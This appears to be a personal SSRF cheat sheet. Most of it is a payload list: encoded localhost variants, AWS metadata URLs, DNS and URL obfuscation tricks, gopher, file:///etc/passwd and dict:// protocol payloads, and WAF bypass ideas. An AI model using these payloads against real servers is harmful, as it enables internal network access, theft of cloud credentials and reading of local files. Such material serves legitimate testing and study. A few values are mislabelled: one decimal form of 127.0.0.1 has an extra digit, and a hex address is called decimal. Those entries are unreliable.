 ?url=ssrf

2 types : regular,blind

http//:api => admin
http//:api => 192.168.0.x:8080/admin : intruder l9ina x 

blacklist : localhost=127.0.0.1=127.1=.......
do not forget url encoding

open redirection 

?URL= file:///, dict://, ftp://, gopher://

##### amazing resource : 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# 📡 SSRF (Server-Side Request Forgery) 

## 🔍 What is SSRF?

SSRF occurs when an attacker tricks a server into making HTTP requests on their behalf. This can lead to : 

- Internal network access (e.g. `localhost`, `127.0.0.1`)

- Access to cloud metadata (`169.254.169.254`)

- Port scanning internal services

- Possible Remote Code Execution (RCE) in some cases


## ✅ SSRF Test Payloads

  

- 127.0.0.1
- localhost
- 169.254.169.254           # AWS Metadata
- [::1]                     # IPv6 localhost
- 0.0.0.0
- 2130706433                # Decimal (127.0.0.1)
- 0177.1                    # Octal (127.0.0.1)
- 127.1
- 12130706433          # Decimal
- 0x7f000001          # Hex
- 0177.0.0.1          # Octal
- 127.000.000.001     # Padded
- 127.0.1
- [::ffff:127.0.0.1]        # IPv6-mapped IPv4
- [::]
- [0000::1]
- [0:0:0:0:0:ffff:127.0.0.1]
- [::ffff:127.0.0.1]


### ✅ DNS Tricks : 

- localhost.localdomain

- localhost.bypass.com

- 127.0.0.1.nip.io

- 127.0.0.1.xip.io

### ✅ URL Obfuscation : 

- 127.0.0.1#evil.com

- 127.0.0.1@evil.com

- evil.com@127.0.0.1

- localhost%00.evil.com

- localhost%2f@evil.com

- 127.0.0.1%2F..            



### ✅ Protocol Confusion


- gopher://127.0.0.1:3306/_DATA

- ftp://127.0.0.1

- file:///etc/passwd

- dict://127.0.0.1
  
---

## 🔥 SSRF to AWS Metadata

- 169.254.169.254/latest/meta-data/

- [::ffff:169.254.169.254]/latest/meta-data/

- 0xA9FEA9FE                # Decimal of 169.254.169.254
---

  

## ⚠️ WAF Bypass Ideas : 



- URL encoding     : `localhost%2f..%2fadmin`          

-  Case variation     : `LOcaLhOst`, `MetA-Data`               

-  Null bytes          : `localhost%00.example.com`             

- Host header abuse    :  Add `Host: 127.0.0.1` in SSRF requests  


---

  
- Combine SSRF with open redirect or DNS rebinding to enhance impact.

- SSRF can lead to RCE if targeting internal services .
---



https://highon.coffee/blog/ssrf-cheat-sheet/